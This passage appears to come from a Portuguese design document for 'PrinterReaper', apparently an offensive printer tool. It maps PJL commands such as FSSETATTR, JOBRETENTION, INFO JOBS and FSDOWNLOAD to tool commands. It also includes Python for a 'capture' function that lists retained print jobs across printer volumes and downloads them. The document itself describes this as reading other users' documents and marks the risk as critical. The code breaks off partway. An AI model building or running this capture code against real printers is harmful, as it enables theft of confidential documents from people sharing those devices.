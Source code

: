 ### ✅ 4.10 Permission Manipulation
**PJL**: `@PJL FSSETATTR`  
**PrinterReaper**: `chmod`  
**Efeito**: Modificar permissões de arquivos

---

## 5️⃣ PRINT JOB MANIPULATION (2/6 = 33%) ⚠️ CRÍTICO

### ✅ 5.1 Job Retention
**PJL**: `@PJL SET JOBRETENTION=ON`  
**PrinterReaper**: `hold`  
**Efeito**: Reter jobs para captura posterior

### ✅ 5.2 Job Listing
**PJL**: `@PJL INFO JOBS`  
**PrinterReaper**: Implementar `capture` (list only)  
**Efeito**: Listar jobs retidos

### ❌ 5.3 Job Capture (FALTANDO) 🔴
**PJL**: `@PJL FSDOWNLOAD NAME="job_file"`  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Capturar e ler documentos de outros usuários  
**Risco**: CRÍTICO - Vazamento de dados confidenciais

**Implementação**:
```python
def do_capture(self, arg):
    """Capture retained print jobs"""
    output().info("Listing retained jobs...")
    
    # Method 1: Query job info
    jobs_info = self.cmd("@PJL INFO JOBS")
    if jobs_info:
        print("Jobs in queue:")
        print(jobs_info)
    
    # Method 2: List job files in filesystem
    for vol in ["0:", "1:", "2:"]:
        for job_path in ["jobs", "saveDevice/SavedJobs", "savedJobs"]:
            full_path = f"{vol}/{job_path}"
            output().info(f"Checking {full_path}...")
            result = self.cmd(f"@PJL FSDIRLIST NAME=\"{full_path}\"")
            if result and len(result) > 10:
                print(f"\nJobs found in {full_path}:")
                print(result)
                
                # Parse and download if requested
                if arg == "download":
                    job_files = self.parse_dirlist(result)
                    for job_file in job_files:
                        job_full_path = f"{full_path}/{job_file}"
                        output().info(f"Downloading {job_file}...")
                        self.do_download(job_full_path)

def parse_dirlist(self, dirlist):
    """Parse FSDIRLIST output to extract filenames"""
    files = []
    for line in dirlist.split('\n'):
        # Parse format: ENTRY=1 NAME="file" SIZE=1234
        match = re.search(r'NAME="([^"]+)"', line)
        if match:
```